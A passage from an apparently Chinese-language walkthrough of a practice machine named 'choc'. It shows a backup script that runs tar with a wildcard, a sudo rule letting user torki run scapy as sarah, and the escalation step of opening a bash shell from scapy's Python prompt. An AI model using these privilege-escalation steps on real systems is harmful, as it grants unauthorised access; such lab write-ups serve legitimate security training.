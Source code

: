 ```bash
uid=1000(torki) gid=1000(torki) groups=1000(torki),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)

(remote) torki@choc:/home/torki$ cat backup.sh
#!/bin/bash
cd /home/torki/secret_garden
tar cf /tmp/backup_home.tgz *
```

## 4. 提权到sarah
```bash
(remote) torki@choc:/home/torki$ sudo -l
User torki may run the following commands on choc:
    (sarah) NOPASSWD: /usr/bin/scapy
```
> scapy可以用来发各种协议的数据包，但是他实际上是一个python，所以可以利用像python一样开启一个shell

```bash
(remote) torki@choc:/home$ sudo -u sarah scapy
WARNING: Cannot read wireshark manuf database
INFO: Can't import matplotlib. Won't be able to plot.
INFO: Can't import PyX. Won't be able to use psdump() or pdfdump().
WARNING: Failed to execute tcpdump. Check it is installed and in the PATH
WARNING: No route found for IPv6 destination :: (no default route?)
INFO: Can't import python-cryptography v1.7+. Disabled WEP decryption/encryption. (Dot11)
INFO: Can't import python-cryptography v1.7+. Disabled IPsec encryption/authentication.
WARNING: IPython not available. Using standard Python shell instead.
AutoCompletion, History are disabled.

                     aSPY//YASa
             apyyyyCY//////////YCa       |
            sY//////YSpcs  scpCY//Pp     | Welcome to Scapy
 ayp ayyyyyyySCP//Pp           syY//C    | Version 2.4.0
 AYAsAYYYYYYYY///Ps              cY//S   |
         pCCCCY//p          cSSps y//Y   | https://github.com/secdev/scapy
         SPPPP///a          pP///AC//Y   |
              A//A            cyP////C   | Have fun!
              p///Ac            sC///a   |
              P////YCpc           A//A   | Craft packets like I craft my beer.
       scccccp///pSP///p          p//Y   |               -- Jean De Clerck
      sY/////////y  caa           S//P   |
       cayCyayP//Ya              pY/Ya
        sY/PsY////YCc          aC//Yp
         sc  sccaCY//PCypaapyCP//YSs
                  spCPY//////YPSps
                       ccaacs

>>> import os
>>> os.system('/bin/bash')
sarah@choc:/home$ whoami
sarah

```
